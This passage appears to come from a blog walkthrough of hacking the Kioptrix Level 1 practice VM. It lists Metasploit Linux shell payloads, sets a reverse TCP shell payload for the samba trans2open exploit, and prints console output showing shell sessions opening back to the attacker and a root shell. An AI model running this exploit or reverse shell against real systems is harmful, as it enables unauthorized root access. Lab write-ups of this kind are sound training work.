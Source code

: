 ```bash
   25  payload/linux/x86/shell/bind_tcp_uuid                              normal  No     Linux Command Shell, Bind TCP Stager with UUID Support (Linux x86)
   26  payload/linux/x86/shell/reverse_ipv6_tcp                           normal  No     Linux Command Shell, Reverse TCP Stager (IPv6)
   27  payload/linux/x86/shell/reverse_nonx_tcp                           normal  No     Linux Command Shell, Reverse TCP Stager
   28  payload/linux/x86/shell/reverse_tcp                                normal  No     Linux Command Shell, Reverse TCP Stager
   29  payload/linux/x86/shell/reverse_tcp_uuid                           normal  No     Linux Command Shell, Reverse TCP Stager
   30  payload/linux/x86/shell_bind_ipv6_tcp                              normal  No     Linux Command Shell, Bind TCP Inline (IPv6)
   31  payload/linux/x86/shell_bind_tcp                                   normal  No     Linux Command Shell, Bind TCP Inline
   32  payload/linux/x86/shell_bind_tcp_random_port                       normal  No     Linux Command Shell, Bind TCP Random Port Inline
   33  payload/linux/x86/shell_reverse_tcp                                normal  No     Linux Command Shell, Reverse TCP Inline
   34  payload/linux/x86/shell_reverse_tcp_ipv6                           normal  No     Linux Command Shell, Reverse TCP Inline (IPv6)
```

previously we used ```No 16``` payload, we are going to changer payload to ```No 33``` ```payload/linux/x86/shell_reverse_tcp```

```bash
[msf](Jobs:0 Agents:0) exploit(linux/samba/trans2open) >> set payload payload/linux/x86/shell_reverse_tcp
payload => linux/x86/shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(linux/samba/trans2open) >> exploit

[*] Started reverse TCP handler on 192.168.132.128:4444 
[*] 192.168.132.129:139 - Trying return address 0xbffffdfc...
[*] 192.168.132.129:139 - Trying return address 0xbffffcfc...
[*] 192.168.132.129:139 - Trying return address 0xbffffbfc...
[*] 192.168.132.129:139 - Trying return address 0xbffffafc...
[*] 192.168.132.129:139 - Trying return address 0xbffff9fc...
[*] 192.168.132.129:139 - Trying return address 0xbffff8fc...
[*] 192.168.132.129:139 - Trying return address 0xbffff7fc...
[*] 192.168.132.129:139 - Trying return address 0xbffff6fc...
[*] Command shell session 9 opened (192.168.132.128:4444 -> 192.168.132.129:32817 ) at 2022-05-31 11:37:59 +0530

[*] Command shell session 10 opened (192.168.132.128:4444 -> 192.168.132.129:32818 ) at 2022-05-31 11:38:00 +0530
[*] Command shell session 11 opened (192.168.132.128:4444 -> 192.168.132.129:32819 ) at 2022-05-31 11:38:02 +0530
[*] Command shell session 12 opened (192.168.132.128:4444 -> 192.168.132.129:32820 ) at 2022-05-31 11:38:03 +0530
whoami
root
hostname
kioptrix.level1
```
{{< notice success "we have successfully compromized this vm " >}}
See you on the next Blog, Happy hacking...
{{< /notice >}}
